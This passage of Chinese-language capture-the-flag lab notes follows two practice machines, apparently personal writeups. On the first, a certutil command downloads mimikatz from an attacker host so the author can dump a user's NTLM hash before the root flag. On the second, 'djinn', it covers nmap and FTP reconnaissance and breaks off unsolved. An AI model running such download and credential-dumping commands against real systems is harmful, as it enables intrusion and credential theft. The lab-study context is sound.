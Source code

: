 这个路径 后面还是一样/install

![image.png](https://s2.loli.net/2025/05/07/CW7SRsLfbkJFvOo.png)

获得shell

但权限不够需要创建负载来反弹shell

## 解密lab用户
上传mimikatz来获得lab用户的ntlm值
```cmd
certutil -urlcache -split -f http://10.17.40.203：8000/mimikatz.exe mimikatz.exe

certutil工具 上传文件
certutil -urlcache -split -f
```

![image.png](https://s2.loli.net/2025/05/07/YFQfWOENt6wescX.png)


![image.png](https://s2.loli.net/2025/05/07/KGQCn1fNoJuRwvA.png)




![image.png](https://s2.loli.net/2025/05/07/JzOBvCuEWRQ9sNq.png)

## root flag
![image.png](https://s2.loli.net/2025/05/07/TpMSJvQqbUYig1I.png)



# djinn（奇）
[[djinn]]
## nmap扫描端口和文件爆破
![image.png](https://s2.loli.net/2025/05/09/jY89pToaZGqkbQn.png)

有个可以匿名登录的ftp服务器 里面还有几个txt 应该对我们有帮助

![image.png](https://s2.loli.net/2025/05/09/6c1yIKvCoWAXrgh.png)

下载看看

开放了一个1337端口和7331端口

![image.png](https://s2.loli.net/2025/05/09/iLdyWYsQ2JkODa8.png)


说是要回答1000次才会有奖品

## 无思路
其实到这里已经有点难绷了
